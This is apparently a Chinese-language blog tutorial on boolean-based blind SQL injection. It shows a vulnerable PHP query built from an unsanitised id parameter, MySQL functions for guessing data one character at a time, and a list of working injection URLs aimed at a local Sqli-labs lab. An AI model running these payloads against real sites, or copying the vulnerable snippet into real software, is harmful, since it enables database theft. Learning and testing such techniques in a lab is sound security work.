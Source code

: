 ```yaml
---
layout: post
title: 1.3.1-SQL注入-SQL盲注-布尔盲注
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入
  - web安全
  - sql盲注
abbrlink: 2904355367
date: 2018-06-21 00:00:00
description: sql盲注-布尔盲注
---
```

## SQL盲注-布尔盲注

### 01布尔盲注原理
	
	$id=$_GET['id'];
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1 ";
	$result=mysql_query($sql);
	$row=mysql_fetch_array($result);
	if($row)
	{
		echo "Right";
	}
	else
	{
		echo "Wrong";
	}


代码存在SQL注入漏洞  
然而页面即不会回显数据，也不会回显错误信息  

只返回 “Right” 与 “Wrong”   

这里我们可以通过构造语句，来判断数据库信息的正确性，再通过页面的“真”和“假”来识别我们的判断是否正确，这既是布尔盲注！  


正确请求，id=1 -> 返回 id=1的数据  

错误请求，id=1' -> 返回 与正确页面不同的页面  
1.如果页面返回“假”，说明系统执行的SQL语句为“假”如：id=1 and left((select version()),1)=5--+  
2.想办法构造语句，判断数据库中内容的值  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/01.jpeg)

### 02布尔盲注方法

构造逻辑判断语句，判断信息的真假，取出所有的真值，实现SQL注入  

	left() left(database(),1)>'s'
			database()显示数据库名称，left(a,b)从左侧截取a的前b位
	regexp select user() regexp '^r'
			正则表达式的用法user()结果位root,regexp为匹配root的正则表达式
	like	select user() like 'ro%'
			与regexp类似，使用like进行匹配
	substr()  ascii(substr((select database()),1,1))=98
	ascii() substr(a,b,c)从b位置开始，截取字符串a到c长度，ascii()将某个字符转换为ascii值
	ord()	ord(mid((select user()),1,1))=114
	mid()	mid(a,b,c)从位置b开始，截取a字符串的c位ord()函数痛ascii(),将字符串转为ascii值
	
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/02.jpeg)


[MySql正则表达式](http://www.runoob.com/mysql/mysql-regexp.html)

注入点： 

	http://localhost:90/Less-8/?id=1'
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='a'--+
	http://localhost:90/Less-8/?id=1' and left((select database()),1)='s'--+ 显示正确第一位为s

	http://localhost:90/Less-8/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e'--+ 第一个表名称字符

	http://localhost:90/Less-8/?id=1' and (select database() regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) regexp '^s')--+

	http://localhost:90/Less-8/?id=1' and (select table_name from information_schema.tables where table_schema=database() limit 0,1) like 'e%')--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select database()),1,1))=115--+

	http://localhost:90/Less-8/?id=1 and ascii((substr((select table_name from information_schema.tables where table_schema=database()),1,1))=115--+


![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/ascii.jpg)


## burp操作步骤
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/03.png)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/04.jpg)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/05.png)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/06.png)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/05/07.jpg)
















